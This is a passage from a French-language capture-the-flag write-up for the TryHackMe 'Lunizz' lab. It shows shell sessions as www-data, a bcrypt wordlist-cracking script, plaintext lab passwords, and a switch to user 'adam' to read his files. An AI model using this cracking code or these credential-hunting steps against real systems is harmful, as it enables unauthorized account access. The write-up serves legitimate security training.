Le répertoire qui doit pas être là est : proct  

**hi adam, do you remember our place?**

```bash
cd proct
www-data@lunizz:/proct$ ls
ls
pass
cat bcrypt_encryption.py
import bcrypt
import base64

passw = "wewillROCKYOU".encode('ascii')
b64str = base64.b64encode(passw)
hashAndSalt = bcrypt.hashpw(b64str, bcrypt.gensalt())
print(hashAndSalt)

#hashAndSalt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
#bcrypt.checkpw()
```

Dans /proct/pass/bcryp_encryption.py on trouve un hash chiffré avec un salt.   

```bash
tim@kali:~/Bureau/tryhackme/write-up$ cat decode.py 
import bcrypt
import base64

salt = b'$2b$12$LJ3m4rzPGmuN1U/h0IO55.3h9WhI/A0Rcbchmvk10KWRMWe4me81e'
file = open("./list.txt","r")

for p in file:
    password = p.strip()      
    try:
        bpass = password.encode('ascii')
        passed= str(base64.b64encode(bpass))
        hashAndSalt = bcrypt.hashpw(passed.encode(), bcrypt.gensalt())
        if bcrypt.checkpw(passed.encode(),salt):
            print("GOTIT........>>",p, hashAndSalt)
            break
    except:
        continue
```

Le décodage prend trop de temps, je connais le mot de passe de adam, mais il correspond pas hash.   
Le mot de passe de adam est : bowwow    
 
```bash
su adam
Password: bowwow
cd /home/adam
$ cd Desktop
cd Desktop
$ ls -al
ls -al
total 12
drwxr-xr-x 3 adam adam 4096 Feb 28  2021 .
drwxr-x--- 5 adam adam 4096 Oct 15 19:36 ..
drwxr-xr-x 2 adam adam 4096 Feb 28  2021 .archive
$ cd .archive
cd .archive
$ ls
ls
to_my_best_friend_adam.txt
$ cat to_my_best_friend_adam.txt
cat to_my_best_friend_adam.txt
```